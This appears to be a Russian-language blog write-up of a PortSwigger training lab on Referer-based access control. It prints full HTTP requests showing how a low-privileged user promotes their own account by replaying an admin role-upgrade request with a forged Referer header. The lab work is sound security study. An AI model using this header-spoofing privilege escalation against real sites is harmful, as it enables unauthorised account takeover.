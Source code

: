 ```yaml
---
title: "Referer-based access control"
date: 2025-07-24
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-referer-based-access-control"
classes: wide
---
```


У нас есть данные для входа в учетную запись администратора `administrator`:`admin` и в нашу `wiener`:`peter`.

Для прохождения лабы нужно повысить права нашего аккаунта через **уязвимость контроля доступа через Referer**.

```
https://0a5e006703ed1e9880425d3c005b0030.web-security-academy.net/
```

## Solution

Зайду в ЛК админа. Зайду в панель админа и повышу пользователя `carlos`, чтобы собрать запросы:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Referer-based_access_control/1.png){: height="200" .align-center}

Запрос:

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a5e006703ed1e9880425d3c005b0030.web-security-academy.net
Cookie: session=vu0K5L2D8wqkJO7XF1Cs8V0v69YtIvPv
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5e006703ed1e9880425d3c005b0030.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

Закину его в `Repeater`. Иду в аккаунт `wiener`. Возьму новое значение `Cookies`, чтобы отправлять запрос от лица непривилегированного пользователя:

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a5e006703ed1e9880425d3c005b0030.web-security-academy.net
Cookie: session=OMEHhZhAsIgyAXcqFzGuShFq239HqLgI
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5e006703ed1e9880425d3c005b0030.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Получилось... Слишком просто.

Глянул разбор. Идея был в том, чтобы взять именно `URL` `/admin-roles?username=carlos&action=upgrade`, а дальше уже подставить значение `Referer`, которое используется для зашиты доступа к `API`-ручкам админа. Но я скопировал запрос, поэтому у меня это поле уже было) Таков путь...


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Referer-based_access_control/2.png){: height="200" .align-center}

